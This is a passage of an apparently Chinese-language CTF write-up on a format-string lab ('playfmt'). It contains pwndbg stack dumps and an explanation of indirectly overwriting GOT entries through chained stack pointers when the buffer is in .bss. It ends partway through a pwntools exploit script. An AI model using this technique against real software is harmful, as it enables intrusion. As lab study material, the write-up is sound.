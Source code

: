 和上一道题相比, lab9 的格式化字符串不在栈上,在全局变量 (.bss) 段, 因此我们就不能直接控制栈上的变量来进行修改 got 等行为,但可以通过控制
```assembly
Breakpoint *do_fmt+64
pwndbg> stack 25
00:0000│ esp  0xffffd0c0 —▸ 0x804a060 (buf) ◂— 0xa7025 /* '%p\n' */
01:0004│      0xffffd0c4 —▸ 0x8048640 ◂— jno    0x80486b7 /* 'quit' */
02:0008│      0xffffd0c8 ◂— 0x4
03:000c│      0xffffd0cc —▸ 0x804857c (play+51) ◂— add    esp, 0x10
04:0010│      0xffffd0d0 —▸ 0x8048645 ◂— cmp    eax, 0x3d3d3d3d
05:0014│      0xffffd0d4 —▸ 0xf7fa4000 (_GLOBAL_OFFSET_TABLE_) ◂— 0x1b2db0
06:0018│ ebp  0xffffd0d8 —▸ 0xffffd0e8 —▸ 0xffffd0f8 ◂— 0x0
07:001c│      0xffffd0dc —▸ 0x8048584 (play+59) ◂— nop    
08:0020│      0xffffd0e0 —▸ 0xf7fa4d60 (_IO_2_1_stdout_) ◂— 0xfbad2887
09:0024│      0xffffd0e4 ◂— 0x0
0a:0028│      0xffffd0e8 —▸ 0xffffd0f8 ◂— 0x0
0b:002c│      0xffffd0ec —▸ 0x80485b1 (main+42) ◂— nop    
0c:0030│      0xffffd0f0 —▸ 0xf7fa43dc (__exit_funcs) —▸ 0xf7fa51e0 (initial) ◂— 0x0
0d:0034│      0xffffd0f4 —▸ 0xffffd110 ◂— 0x1
0e:0038│      0xffffd0f8 ◂— 0x0
0f:003c│      0xffffd0fc —▸ 0xf7e09276 (__libc_start_main+246) ◂— add    esp, 0x10
10:0040│      0xffffd100 ◂— 0x1
11:0044│      0xffffd104 —▸ 0xf7fa4000 (_GLOBAL_OFFSET_TABLE_) ◂— 0x1b2db0
12:0048│      0xffffd108 ◂— 0x0
13:004c│      0xffffd10c —▸ 0xf7e09276 (__libc_start_main+246) ◂— add    esp, 0x10
14:0050│      0xffffd110 ◂— 0x1
15:0054│      0xffffd114 —▸ 0xffffd1a4 —▸ 0xffffd342 ◂— 0x6d6f682f ('/hom')
16:0058│      0xffffd118 —▸ 0xffffd1ac —▸ 0xffffd375 ◂— 0x5f474458 ('XDG_')
17:005c│      0xffffd11c ◂— 0x0
... ↓
pwndbg> 
```
如上 0x15, 0x16, 0x06 出的指针指向栈上的变量, 如修改 0x15 处为
```assembly
15:0054│      0xffffd114 —▸ 0xffffd1a4 —▸ 0xffffd0dc —▸ 0x8048584 (play+59)
```
然后再将 0x8048584 修改为某个 got 地址, 就可以实现间接地写 got 了, 这种方式也基本成了一种固定的套路, 如 hackme.inndy 的 [echo3](https://github.com/0x01f/pwn_repo/tree/master/inndy_echo3) 一道题

#### exp 
为了解释清楚整个利用的过程, 我把我调试时的信息也放到脚本里了
```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-
__Auther__ = 'M4x'

from pwn import *
context.arch = 'i386'
context.terminal = ['deepin-terminal', '-x', 'sh', '-c']

io = process("./playfmt")
libc = ELF("/lib/i386-linux-gnu/libc.so.6")
elf = ELF("./playfmt")

'''
Breakpoint *do_fmt+64
pwndbg> x/3s 0x804a060
0x804a060 <buf>:	"..%8$p....%6$p."...
0x804a06f <buf+15>:	".11111111"
0x804a079 <buf+25>:	""
pwndbg> stack 25
00:0000│ esp  0xffa077c0 —▸ 0x804a060 (buf) ◂— 0x38252e2e ('..%8')
01:0004│      0xffa077c4 —▸ 0x8048640 ◂— jno    0x80486b7 /* 'quit' */
02:0008│      0xffa077c8 ◂— 0x4
03:000c│      0xffa077cc —▸ 0x804857c (play+51) ◂— add    esp, 0x10
04:0010│      0xffa077d0 —▸ 0x8048645 ◂— cmp    eax, 0x3d3d3d3d
```